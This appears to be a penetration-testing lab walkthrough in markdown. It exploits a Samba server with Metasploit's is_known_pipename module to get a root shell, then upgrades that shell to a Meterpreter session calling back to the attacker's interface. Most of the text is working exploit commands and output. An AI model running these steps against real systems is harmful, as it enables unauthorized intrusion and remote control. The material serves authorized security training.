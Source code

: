 ------

## Lab 2

> 🔬 Same [Samba SMB Exploitation lab](samba-msf-exp.md)
>
> - Target IP: `192.129.219.3`
> - Metasploit **`post/multi/manage/shell_to_meterpreter`** module

```bash
ip -br -c a
	eth1@if186734 UP 192.129.219.2/24
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.129.219.3
setg RHOST 192.129.219.3
workspace -a Upgrade_Shells
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.129.219.3
```

```bash
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
run
```

```bash
/bin/bash -i
	root@victim-1:/tmp#
```

### Manual Shell to Meterpreter

- This Linux command shell is not as advanced as `Meterpreter`.

- Upgrade the command shell to a `Meterpreter` session on the target system

```bash
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST eth1
run

sessions
sessions 2
exit
```

